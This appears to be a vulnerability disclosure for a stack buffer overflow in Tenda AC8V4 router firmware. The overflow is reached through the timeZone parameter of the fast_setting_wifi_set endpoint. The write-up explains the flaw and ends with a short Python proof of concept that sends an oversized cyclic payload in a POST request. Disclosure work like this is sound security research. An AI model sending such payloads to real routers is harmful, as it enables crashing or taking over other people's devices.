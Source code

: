 # Vulnerability Description
A stack-based overflow vulnerability can be triggered by via the  in the sub_44db3c function.
## Affected version:
`US_AC8V4.0si_V16.03.34.06` 

To download the firmware: https://www.tenda.com.cn/download/detail-3518.html

# Exploition details:
<img width="626" alt="image" src="https://github.com/DDizzzy79/Tenda-CVE/assets/72267897/4291eaa6-9658-48f1-aaaa-061fc4b6ca93">

This is a buffer overflow vulnerability in the function sub_44db3c, which handles the timeZone parameter. Upon receiving a POST request containing the timeZone parameter, the function sub_44db3c allocates a buffer var10 of size 8 bytes on the stack, and then uses the sscanf function to attempt to read two strings from the timeZone parameter and store them in the var10 variable. Since there is no limit on the input length, if the input string is longer than 8 bytes, it will result in a stack overflow. An attacker could exploit this vulnerability to execute arbitrary code on the target system.

<img width="790" alt="image" src="https://github.com/DDizzzy79/Tenda-CVE/assets/72267897/6ab71253-86a7-4220-b6aa-ac2b90b82144">

Call chain : fast_setting_wifi_set -> form_fast_setting_wifi_set -> sub_44db3c

# PoC

```python
def exploit_sub_44db3c():
    url = f"http://{host}/goform/fast_setting_wifi_set"
    payload = b''
    payload = payload.ljust(0x100,b'A') + b":" + cyclic
    data = {
        b"ssid":b'1',
        b"timeZone":payload
    }
    res = requests.post(url=url,data=data)
    print(res.content)
```
